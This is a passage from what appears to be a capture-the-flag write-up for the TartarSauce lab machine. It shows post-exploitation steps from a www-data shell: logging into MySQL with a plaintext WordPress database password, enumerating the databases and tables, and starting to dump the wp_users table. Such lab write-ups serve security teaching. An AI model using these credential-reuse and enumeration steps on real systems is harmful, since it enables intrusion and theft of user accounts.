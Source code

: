 ```
require_once(ABSPATH . 'wp-settings.php');
www-data@TartarSauce:/var/www/html/webservices/wp$
```

Let's try connect to the database and look around:

```
www-data@TartarSauce:/var/www/html/webservices$ mysql -u wpuser -p
mysql -u wpuser -p
Enter password: w0rdpr3$$d@t@b@$3@cc3$$

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 407
Server version: 5.7.22-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wp;
use wp;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables; 
show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
```